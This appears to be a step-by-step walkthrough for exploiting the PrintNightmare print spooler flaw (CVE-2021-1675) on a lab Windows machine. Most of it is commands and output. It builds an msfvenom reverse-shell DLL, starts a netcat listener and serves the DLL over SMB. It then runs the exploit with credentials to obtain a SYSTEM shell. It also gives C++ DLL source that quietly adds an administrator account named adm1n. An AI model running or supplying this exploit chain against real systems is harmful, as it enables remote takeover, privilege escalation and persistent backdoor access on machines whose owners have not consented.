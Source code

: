 Best installation : https://github.com/cube0x0/CVE-2021-1675/issues/19

Create a dll for reverse connection

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.200.101 LPORT=4444 -f dll -o reverse.dll
	[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
	No encoder specified, outputting raw payload
	Payload size: 460 bytes
	Final size of dll file: 8704 bytes
	Saved as: reverse.dll


Start listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444                 
	listening on [any] 4444 ...


Start smb server for sharing dll

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce]
	└─$ sudo /usr/bin/impacket-smbserver share smb -smb2support
	Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

	[*] Config file parsed
	[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
	[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
	[*] Config file parsed
	[*] Config file parsed
	[*] Config file parsed


Run exploit (i got error but still could get reverse shell somehow)

	┌──(PrintNightmare)(kali㉿kali)-[~/Desktop/printnightmare rce/CVE-2021-1675]
	└─$ python CVE-2021-1675.py valhalla/testuser:'Pass123!'@192.168.200.112 '\\192.168.200.101\share\reverse.dll'          
	[*] Connecting to ncacn_np:192.168.200.112[\PIPE\spoolss]
	[+] Bind OK
	[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
	[*] Executing \??\UNC\192.168.200.101\share\reverse.dll
	[*] Try 1...
	[*] Stage0: 0
	[*] Try 2...
	
Check back netcat listener

	┌──(kali㉿kali)-[~/Desktop/printnightmare rce/smb]
	└─$ nc -lvnp 4444
	listening on [any] 4444 ...
	connect to [192.168.200.101] from (UNKNOWN) [192.168.200.112] 62863
	Microsoft Windows [Version 10.0.19043.928]
	(c) Microsoft Corporation. All rights reserved.

	C:\Windows\system32>whoami
	whoami
	nt authority\system

	C:\Windows\system32>



You can create your own dll with visual studio. Just create a dll project for c++ and copy code below. Select release and x64 then build it

	#include "pch.h"
	#include <stdlib.h>

	BOOL APIENTRY DllMain(HMODULE hModule,
		DWORD  ul_reason_for_call,
		LPVOID lpReserved
	)
	{
		switch (ul_reason_for_call)
		{
		case DLL_PROCESS_ATTACH:
			system("cmd.exe /c net user adm1n Password123. /add");
			system("cmd.exe /c net localgroup administrators adm1n /add");
		case DLL_THREAD_ATTACH:
		case DLL_THREAD_DETACH:
		case DLL_PROCESS_DETACH:
			break;
		}
		return TRUE;
	}
	

run exploit

	┌──(PrintNightmare)(kali㉿kali)-[~/Desktop/printnightmare rce/CVE-2021-1675]
	└─$ python CVE-2021-1675.py valhalla/testuser:'Pass123!'@192.168.200.112 '\\192.168.200.101\share\adduser.dll'                                   1 ⨯
	[*] Connecting to ncacn_np:192.168.200.112[\PIPE\spoolss]
	[+] Bind OK
	[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_c62e9f8067f98247\Amd64\UNIDRV.DLL
	[*] Executing \??\UNC\192.168.200.101\share\adduser.dll
	[*] Try 1...
	[*] Stage0: 0
	[*] Try 2...
	[*] Stage0: 0
	[*] Stage2: 0
	[+] Exploit Completed


check current users in target machine

	C:\Users\testuser>net user adm1n
	User name                    adm1n
	Full Name
	Comment
	User's comment
	Country/region code          000 (System Default)
	Account active               Yes
	Account expires              Never

	Password last set            22/09/2021 14:48:05
	Password expires             03/11/2021 14:48:05
	Password changeable          23/09/2021 14:48:05
	Password required            Yes
	User may change password     Yes

	Workstations allowed         All
	Logon script
	User profile
	Home directory
	Last logon                   Never

	Logon hours allowed          All

	Local Group Memberships      *Administrators       *Users
	Global Group memberships     *None
	The command completed successfully.
